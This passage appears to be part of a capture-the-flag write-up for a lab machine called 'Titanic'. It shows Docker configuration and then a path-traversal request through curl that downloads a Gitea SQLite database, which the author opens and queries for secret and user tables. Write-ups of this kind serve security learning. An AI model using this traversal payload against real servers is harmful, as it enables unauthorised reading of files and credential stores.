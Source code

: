 ```yaml
      MYSQL_PASSWORD: sql_password
    restart: always
```

```json
{"name": "Jack Dawson", "email": "jack.dawson@titanic.htb", "phone": "555-123-4567", "date": "2024-08-23", "cabin": "Standard"}
```
{: .nolineno}

I figured out that the SQL database is probably used for Gitea, since it appears to need a database, this database location is given in the docker-compose for Gitea[^1]:
```yaml
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

## Exploit

I found the Gitea database to be located in: `/home/developer/gitea/data/gitea/gitea.db`

I then used the LFI vulnerability to get that file on my local machine:
```sh
┌──(kali㉿kali)-[~/Desktop]
└─$ curl http://titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db -o gitea.db
```
{: .nolineno}

```sh
┌──(kali㉿kali)-[~/Desktop]
└─$ sqlite3                                                 
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> .open gitea.db
sqlite> .tables
secret ...
user   ...
sqlite> select * from secret; #Appears to be empty
select * from user;
...
```
{: .nolineno}
